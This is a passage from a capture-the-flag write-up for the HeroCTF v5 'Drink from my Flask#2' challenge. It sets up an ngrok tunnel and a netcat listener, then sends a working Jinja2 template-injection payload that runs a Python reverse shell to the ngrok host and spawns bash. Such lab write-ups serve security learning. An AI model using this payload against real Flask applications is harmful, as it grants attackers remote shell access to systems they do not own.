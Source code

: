 ## Enumeration

**Remote Code Execute (RCE) via Server-Side Template Injection (SSTI) payload from "Drink from my Flask#1":** (Writeup: [https://siunam321.github.io/ctf/HeroCTF-v5/Web/Drink-from-my-Flask-1/](https://siunam321.github.io/ctf/HeroCTF-v5/Web/Drink-from-my-Flask-1/))

- Setup a port forwarding service like Ngrok:

```shell
┌[siunam♥earth]-(~/ctf/HeroCTF-v5/System/Drink-from-my-Flask#2)-[2023.05.13|22:13:16(HKT)]
└> ngrok tcp 4444
[...]
Forwarding                    tcp://0.tcp.ap.ngrok.io:15516 -> localhost:4444
[...]
```

- Setup a `nc` listener:

```shell
┌[siunam♥earth]-(~/ctf/HeroCTF-v5/System/Drink-from-my-Flask#2)-[2023.05.13|22:19:07(HKT)]
└> nc -lnvp 4444
listening on [any] 4444 ...
```

- Send the reverse shell payload:

```
\{\{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen(\"python3 -c 'import os,pty,socket;s=socket.socket();s.connect((\\\"0.tcp.ap.ngrok.io\\\",15516));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\\\"/bin/bash\\\")'\").read() \}\}
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513222858.png)
